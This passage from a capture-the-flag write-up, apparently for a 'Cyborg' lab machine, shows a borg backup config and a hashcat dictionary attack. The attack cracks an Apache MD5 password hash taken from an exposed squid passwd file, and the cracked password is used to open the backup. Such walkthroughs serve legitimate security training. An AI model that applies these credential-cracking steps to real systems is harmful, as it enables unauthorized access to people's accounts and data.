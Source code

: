 We are going to review all the content of the files, when we `catear` the `home/field/dev/final_archive/config` file, we can see the following output:

```
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
     L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
     2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
     8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
     daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
     oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
     eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
     T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
     vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
     SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
     UCH8bjZLfc1GFsundmVyc2lvbgE=
```

If we read the `readme`, it will take us to the following [borgbackup documentation](https://borgbackup.readthedocs.io/en/stable/)

To install borg:

```
apt install borgbackup
```

If we do the following command:


```
borg create -v --stats final_archive::Saturday2 /home/wual/Documents/pentesting/machines/Cyborg/rep
```

It will ask us for a password, to be able to restore the backup, so we are going to try to decode the password of the web page http://10.10.75.97/etc/squid/passwd. We put the pass in a file and execute the following command:

```
hashcat -a 0 -m 1600 <hash-file> /usr/share/wordlists/rockyou.txt
```

It gives us the following output:

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5(APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Sun May 28 11:13:14 2023 (1 sec)
Time.Estimated...: Sun May 28 11:13:15 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 30549 H/s (6.76ms) @ Accel:64 Loops:500 Thr:1 Vec:16
```